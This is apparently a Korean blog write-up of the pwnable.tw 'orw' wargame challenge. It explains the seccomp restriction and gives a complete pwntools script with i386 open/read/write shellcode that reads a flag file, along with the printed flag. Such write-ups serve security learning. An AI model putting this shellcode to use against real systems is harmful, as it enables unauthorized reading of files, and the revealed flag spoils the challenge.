 ```yaml
---
title: "pwnable.tw - orw"
date: 2021-01-05 16:30:00 -0400
categories: pwn/pwnable.tw
---
```


orw
==
###### [pwnable.tw/orw]
  
Overview
--
문제를 보면 다음과 같이 나와있다. 
```
Read the flag from /home/orw/flag.
Only open read write syscall are allowed to use.
``` 
  
`orw` 파일을 다운로드 받아서 실행하거나,  
`chall.pwnable.tw:10001`에 접속하면 다음과 같은 실행화면이 나온다.
```
lucy@ubuntu:~/pwnable.tw/orw$ ./orw
Give my your shellcode:
Segmentation fault (core dumped)
lucy@ubuntu:~/pwnable.tw/orw$ ./orw
Give my your shellcode:abcde
Segmentation fault (core dumped)
```
`Give my your shellcode:`라는 문자열이 출력되고 입력값을 받는 프로그램이다.  
임의의 입력값을 넣으면 `Segmentation fault`가 발생한다.  
  
```
int __cdecl main(int argc, const **argv, const char **envp){
  orw_seccomp();
  printf("Give my your shellcode:");
  read(0, &shellcode, 0xC8u);
  ((void (*)(void)shellcode)();
  return 0;
}
```
코드를 보면 사용자로부터 `shellcode` 버퍼에 입력을 받고, `shellcode` 주소를 호출한다.   
적용된 보호기법을 보면 다음과 같다.
```
pwndbg> checksec
[*] '/home/lucy/pwnable.tw/orw/orw'
    Arch:     i386-32-little
    RELRO:    Partial RELRO
    Stack:    Canary found
    NX:       NX disabled
    PIE:      No PIE (0x8048000)
    RWX:      Has RWX segments
```
`NX disabled` 상태이기 때문에 스택 영역에 실행권한이 있다. 따라서 입력값으로 쉘코드를 넣으면 쉘코드가 실행된다.
  
처음에는 문제에서 `open` `read` `write` syscall만 사용가능하다고 한것을 못보고
`execve`를 호출하는 쉘코드를 넣어봤는데..! 실행되지 않는다.
`orw_seccomp()`함수에서 `prctl()`함수를 호출해 실행가능한 syscall을 필터링해서 `execve`는 실행할 수 없다.

따라서 `open` syscall을 이용해서 `/home/orw/flag`을 열고,
`read` syscall을 호출해서 flag를 읽은 후, `write`로 출력하여 flag 값을 얻는다.
  
exploit code & 결과화면
---
다음은 작성한 익스플로잇 코드이다.  
** 익스플로잇 코드 다음에 더 내리면 플래그 값 스포주의 **
```
#!/usr/bin/python3

from pwn import *
#context(arch = 'i386', os = 'linux')


#p = process("./orw")
r = remote("chall.pwnable.tw",10001)

payload = ""

# open
payload += asm('''
		xor eax, eax
		xor ecx, ecx
		add al, 5
		push ecx	
		push 0x67616c66
		push 0x2f77726f
		push 0x2f656d6f
		push 0x682f2f2f
		mov ebx, esp
		int 0x80	
           ''')

# read
payload += asm('''
		mov ecx, ebx
		xchg ebx, eax
		mov dl, 0x50
		xor eax, eax	
		add al, 3 
	 	int 0x80	
	   ''')

# write
payload += asm(''' 
		xor ebx, ebx 
		add bl, 1
		mov edx, eax
		xor eax, eax
		add al, 4
		int 0x80
  	   ''') 


r.recvuntil("shellcode:")
r.sendline(payload)
r.interactive()
```

###### 결과 화면
```
lucy@ubuntu:~/pwnable.tw/orw$ python ex.py
[+] Opening connection to chall.pwnable.tw on port 10001: Done
[*] Switching to interactive mode
FLAG{sh3llc0ding_w1th_op3n_r34d_writ3}
[*] Got EOF while reading in interactive
$
```
